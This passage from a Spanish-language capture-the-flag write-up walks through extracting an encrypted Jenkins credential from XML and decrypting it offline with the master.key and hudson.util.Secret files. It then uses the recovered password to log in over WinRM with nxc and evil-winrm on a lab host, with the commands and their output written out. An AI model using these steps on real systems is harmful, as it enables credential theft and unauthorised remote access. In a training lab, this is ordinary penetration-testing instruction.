 ```xml
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1634793332195</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```

Vemos este apartado que contiene la contraseña de un usuario llamado `oliver`, algo extraño.
```xml
<com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
```

Pero a parte vemos otro hash `bcrypt`, este hash no consigo crackearlo con `hashcat`
```xml
	 <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
```

Podemos meter todo el XML a un archivo llamado `credentials.xml` y teniendo las claves de encriptación anteriormente encontradas `master.key` y `hudson.util.Secret` podemos desencriptar esa credencial junto con [este script de python](https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py)

```console
$ python3 jenkins_offline_decrypt.py master.key hudson.util.Secret users.xml 
c1cdfun_d2434
```

Y vemos que podemos acceder a través de WinRM como el usuario `oliver`
```console
$ nxc winrm 10.129.246.207 -u 'oliver' -p 'c1cdfun_d2434'
WINRM       10.129.246.207  5985   JENKINS          [*] Windows 10 / Server 2019 Build 17763 (name:JENKINS) (domain:object.local)
WINRM       10.129.246.207  5985   JENKINS          [+] object.local\oliver:c1cdfun_d2434 (Pwn3d!)
```

Ahora con `evil-winrm` podemos ganar una consola interactiva.
```console
$ evil-winrm -i 10.129.246.207 -u 'oliver' -p 'c1cdfun_d2434'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\oliver\Documents> whoami
object\oliver
```
